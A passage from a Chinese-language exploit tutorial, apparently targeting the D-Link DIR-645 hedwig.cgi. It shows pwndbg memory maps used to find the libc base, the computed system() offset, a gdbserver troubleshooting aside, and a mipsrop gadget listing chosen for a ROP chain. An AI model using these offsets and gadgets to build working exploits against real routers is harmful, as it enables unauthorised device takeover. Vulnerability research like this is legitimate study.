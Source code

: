 这里我使用gdb插件pwndbg进行动态调试，使用`vmmap`命令可以看到被调试程序的内存情况：从这里的内存情况可以分析`[linker]`表示的是链接的第三方库，那么怎么判断哪一个是libc.so.0库呢？我使用了一种最笨的方法，使用调试命令将每个链接库的起始数据打印出来与IDA中显示的libc.so.0库的二进制码进行比较，确定libc.so.0库的基址offset_lib为0x767e9000。

```sh
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
  0x400000   0x401000 rwxp     1000 0      /htdocs/web/hedwig.cgi
  0x401000   0x41c000 r-xp    1b000 1000   /htdocs/web/hedwig.cgi
  0x41c000   0x42c000 ---p    10000 1c000  /htdocs/web/hedwig.cgi
  0x42c000   0x42e000 rw-p     2000 1c000  /htdocs/web/hedwig.cgi
0x767e9000 0x767ea000 rwxp     1000 0      [linker]
0x767ea000 0x767ee000 r-xp     4000 1000   [linker]
0x767ee000 0x767fd000 ---p     f000 4000   [linker]
0x767fd000 0x767fe000 r--p     1000 4000   [linker]
0x767fe000 0x767ff000 rw-p     1000 5000   [linker]
0x76ffd000 0x77000000 rw-p     3000 0      [stack]
pwndbg> x/16x 0x767e9000
0x767e9000:     0x464c457f      0x00010101      0x00000000      0x00000000
0x767e9010:     0x00080003      0x00000001      0x00000a00      0x00000034
0x767e9020:     0x00005514      0x50001007      0x00200034      0x00280007
0x767e9030:     0x00110012      0x70000000      0x00000114      0x00000114
```

----------------

**注**：

这里如果在qemu-system模式虚拟机中运行程序可以直接在虚拟机中用`cat /proc/{pid}/maps`查看程序链接的动态库，可以参考[一篇分析文章](https://blog.csdn.net/u012206617/article/details/100744198?ops_request_misc=%25257B%252522request%25255Fid%252522%25253A%252522161119936716780255235669%252522%25252C%252522scm%252522%25253A%25252220140713.130102334..%252522%25257D&request_id=161119936716780255235669&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~baidu_landing_v2~default-1-100744198.pc_search_result_no_baidu_js&utm_term=DIR645)

我用gdbserver启动程序查看进程的时候发现问题，初步推断是gdbserver的问题，经过验证下载新的gdbserver可以成功调试程序。

```sh
chroot . ./gdbserver 192.168.33.102:1234 ./htdocs/web/hedwig.cgi 
sigprocmask: Invalid argument.
```

------------------

因此`system`函数所在地址是offset_system=offset_lib+0x53200，然后使用mips插件mipsrop寻找可利用的gadget1=offset_lib+0x159CC

```
Python>mipsrop.stackfinder()
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x0000B814  |  addiu $a1,$sp,0x15C+var_144                         |  jalr  $s1                             |
|  0x0000B830  |  addiu $a1,$sp,0x15C+var_A4                          |  jalr  $s1                             |
|  0x0000DEF0  |  addiu $s2,$sp,0xA0+var_90                           |  jalr  $s4                             |
|  0x00013F74  |  addiu $s1,$sp,0x28+var_10                           |  jalr  $s4                             |
|  0x00014F28  |  addiu $s1,$sp,0x28+var_10                           |  jalr  $s4                             |
|  0x000159CC  |  addiu $s5,$sp,0x14C+var_13C                         |  jalr  $s0                             |
|  0x00015B6C  |  addiu $s2,$sp,0x280+var_268                         |  jalr  $s0                             |
```